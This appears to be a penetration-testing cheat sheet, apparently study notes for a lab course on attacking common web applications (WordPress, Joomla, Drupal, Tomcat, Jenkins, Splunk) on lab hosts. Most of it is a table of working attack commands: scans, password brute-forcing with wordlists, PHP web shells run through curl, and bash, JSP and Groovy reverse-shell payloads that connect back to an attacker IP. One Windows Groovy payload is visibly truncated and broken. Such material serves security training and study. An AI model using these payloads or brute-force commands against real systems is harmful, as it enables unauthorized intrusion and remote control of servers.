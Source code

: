 # Attacking Common Applications  

>Preparing the attack host for lab exercises:  

```
IP=10.129.x.x
printf "%s\t%s\n\n" "$IP" "app.inlanefreight.local dev.inlanefreight.local blog.inlanefreight.local" | sudo tee -a /etc/hosts
```

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sudo vim /etc/hosts`                                        | Opens the `/etc/hosts` with `vim` to start adding host names  |
| `sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL scope_list` | Runs an nmap scan using common web application ports based on a scope list (`scope_list`) and outputs to a file (`web_discovery`) in all formats (`-oA`) |
| `eyewitness --web -x web_discovery.xml -d <nameofdirectorytobecreated>` | Runs `eyewitness` using a file generated by an nmap scan (`web_discovery.xml`) and creates a directory (`-d`) |
| `cat web_discovery.xml \| ./aquatone -nmap`                  | Concatenates the contents of nmap scan output (web_discovery.xml) and pipes it to aquatone (`./aquatone`) while ensuring aquatone recognizes the file as nmap scan output (`-nmap`) |
| `sudo wpscan --url <http://domainnameoripaddress> --enumerate` | Runs wpscan using the `--enmuerate` flag. Can replace the url with any valid and reachable URL in each challenge |
| `sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url <http://domainnameoripaddress>` | Runs wpscan and uses it to perform a password attack (`--password-attack`) against the specified url and references a word list (`/usr/share/wordlists/rockyou.txt`) |
| `curl -s http://<hostnameoripoftargetsite/path/to/webshell.php?cmd=id` | cURL command used to execute commands (`cmd=id`) on a vulnerable system utilizing a php-based webshell |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip address of attack box>/<port of choice> 0>&1'");` | PHP code that will execute a reverse shell on a Linux-based system |
| `droopescan scan joomla --url http://<domainnameoripaddress>` | Runs `droopescan` against a joomla site located at the specified url |
| `sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr <username or path to username list>` | Runs joomla-brute.py tool with python3 against a specified url, utilizing a specified wordlist (`/usr/share/metasploit-framework/data/wordlists/http_default_pass.txt`) and user or list of usernames (`-usr`) |
| `<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>` | PHP code that will allow for web shell access on a vulnerable drupal site. Can be used through browsing to the location of the file in the web directory after saving. Can also be leveraged utilizing curl. See next command. |
| `curl -s <http://domainname or IP address of site> /node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id \| grep uid \| cut -f4 -d">"` | Uses curl to navigate to php web shell file and run system commands (`=id`) on the target |
| `gobuster dir -u <http://domainnameoripaddressofsite> -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt` | `gobuster` powered directory brute forcing attack referencing a wordlist (`/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt`) |
| `auxiliary/scanner/http/tomcat_mgr_login`                    | Useful Metasploit scanner module used to perform a brute force login attack against a tomcat site |
| `python3 mgr_brute.py -U <http://domainnameoripaddressofTomCatsite> -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt` | Runs mgr_brute.py using python3 against the specified website starts in the /manager directory (`-P /manager`) and references a specified user or userlist ( `-u`) as well as a specified password or password list (`-p`) |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address of attack box> LPORT=<port to listen on to catch a shell> -f war > backup.war` | Generates a jsp-based reverse shell payload in the form of a .war file utilizing `msfvenom` |
| `nmap -sV -p 8009,8080 <domainname or IP address of tomcat site>` | Nmap scan useful in enumerating Apache Tomcat and AJP services |
| `r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 \| while read line; do \$line 2>&5 >&5; done"] as String[]) p.waitFor()` | Groovy-based reverse shell payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. Will work when the underlying OS is Linux |
| `def cmd = "cmd.exe /c dir".execute(); println("${cmd.text}");` | Groovy-based payload/code that can work with admin access to the `Script Console` of a `Jenkins` site. This will allow webshell access and to execute commands on the underlying Windows system |
| `String host="localhost"; int port=8044; String cmd="cmd.exe"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new So);` | Groovy-based reverse shell payload/code that can work with admin acess to the `Script Console` of a `Jenkins`site. Will work when the underlying OS is Windows |
| [reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)              | A simple Splunk package for obtaining reverse shells on Windows and Linux systems |
|                                                              |                                                              |
|                                                              |                                                              |